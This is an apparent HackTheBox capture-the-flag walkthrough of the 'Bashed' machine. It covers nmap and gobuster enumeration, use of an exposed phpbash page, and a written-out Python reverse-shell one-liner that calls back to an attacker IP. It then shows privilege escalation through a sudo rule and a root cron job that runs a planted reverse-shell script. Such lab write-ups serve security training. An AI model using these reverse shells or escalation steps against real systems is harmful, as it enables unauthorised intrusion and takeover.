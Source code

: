 #HackTheBox 

## <span style="color:#92d050">About </span>

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted,

------
## <span style="color:#92d050">Recon</span> 

Nmap scan : 
```shell
nmap -A 10.10.10.68 -oN nmap_scan.txt 
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 05:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.70 seconds
```

we only have one port open that greatly reduce our time of enumeration .
Operating System : Linux 

---------
## <span style="color:#92d050">HTTP - 80</span> 

 - we have apache httpd service running on port 80 .
 - version : Apache httpd 2.4.18 ((Ubuntu))

Site : 
![[Pasted image 20230822151105.png]]
General information about php bash on site .

after some enumeration we find out that php bash is implemented on this system as well .
![[Pasted image 20230822153753.png]]

so I run gobuster to find the directory :
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .html,.php,.xml,.txt
```

```
/.html                (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 7743]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/contact.html         (Status: 200) [Size: 7805]
/about.html           (Status: 200) [Size: 8193]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

I found lot's of directory and started looking for phpbash.php and found it in /dev :
![[Pasted image 20230822154010.png]]

I click on it and it allowed me to run cmd on target machine so i use python reverse shell to connect to my attacker machine nc listener :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

before i started a nc listener and got a shell .
```
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55758
www-data@bashed:/var/www/html/dev$ whoami
www-data
www-data@bashed:/var/www/html/dev$
```

user.txt :
```
www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
88d56d080afddcb62d805e3d09cb7ef2
www-data@bashed:/home/arrexel$ sudo -l
```

I Found user.txt in user arrexel home directory .

-------
## <span style="color:#92d050">Priv Esc</span> 

#Linux

 - After Getting initial access we started post exploitation by first checking the sudo right .

```
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

and find out i can run any thing as user scriptmanager .

so i run this cmd to get scriptmanager's shell :
```
sudo -u scriptmanager bash -i
```

and we switch to user :
```
scriptmanager@bashed:/home$ whoami
whoami
scriptmanager
scriptmanager@bashed:/home$
```

I moved to "/" directory and found a /script directory with scriptmanager as owner usually all directory in "/" are owned by root :
![[Pasted image 20230822163842.png]]

checking /scripts:
```
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Aug 22 04:04 test.txt
```

we have two files and we have read permission to both of them .
checking content of test.txt :
```
scriptmanager@bashed:/scripts$ cat test.txt 
cat test.txt 
testing 123!
```

checking test.py :
```
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

if we look closely test.py is writing to test.txt but test.txt is owned by root and only he can write , that means test.py is executing with root permission in fact all python files in "/scripts" are executing as root permission because of cronjob mentioned in about section .

so i stored a reverse shell code in rev.py and transfer it using python http server and wget on target machine :
![[Pasted image 20230822164503.png]]

I started a nc listener and wait for some time for script to run and i got a reverse shell .
```
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55176
# whoami
whoami
root
```

I spawn a tty shell using python one liner :
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

the root.txt :
```
root@bashed:~# ls -al
ls -al
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Aug 22 04:00 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# cat root.txt 
cat root.txt 
7d0e756e0b28cee1b2a7de2cb4b28053
root@bashed:~# 
```

